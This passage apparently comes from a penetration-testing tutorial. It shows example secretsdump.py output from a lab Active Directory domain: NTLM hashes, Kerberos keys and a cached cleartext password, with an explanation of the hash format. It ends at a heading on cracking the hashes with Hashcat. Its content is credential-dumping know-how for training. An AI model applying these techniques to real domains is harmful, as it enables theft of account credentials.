 Example output:

```
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x4e9a9a573a75dc3636f832a956ade4b1
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 3041d1cef5730b37a8110151f5c9a80e
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
inlanefreight.local\jim:1104:aad3b435b51404eeaad3b435b51404ee:c39f2beb3d2ec06a62cb887fb391dee0:::
inlanefreight.local\bwilliamson:1125:aad3b435b51404eeaad3b435b51404ee:bc23a1506bd3c8d3a533680c516bab27:::
inlanefreight.local\bburgerstien:1126:aad3b435b51404eeaad3b435b51404ee:e19ccf75ee54e06b06a5907af13cef42:::
inlanefreight.local\jstevenson:1131:aad3b435b51404eeaad3b435b51404ee:bc007082d32777855e253fd4defe70ee:::
```

#### Understanding the Output

The output format follows this pattern:

* `username:RID:LM hash:NT hash:::`

Where:

* `username` is the user account name
* `RID` is the Relative Identifier
* `LM hash` is the legacy LAN Manager hash (usually the default "no password" value)
* `NT hash` is the NTLM hash of the user's password

#### Additional Hash Types

Secretsdump.py also extracts Kerberos keys and supplementary credentials:

```
# Kerberos keys
Administrator:aes256-cts-hmac-sha1-96:cc01f5150bb4a7dda80f30fbe0ac00bed09a413243c05d6934bbddf1302bc552
Administrator:aes128-cts-hmac-sha1-96:bd99b6a46a85118cf2a0df1c4f5106fb
Administrator:des-cbc-md5:618c1c5ef780cde3

# Cleartext passwords (if cached)
inlanefreight.local\jdoe:Jd0e_Autumn_2020
```

### Cracking NTDS Hashes

After extracting hashes, they can be cracked to recover plaintext passwords:

#### Using Hashcat
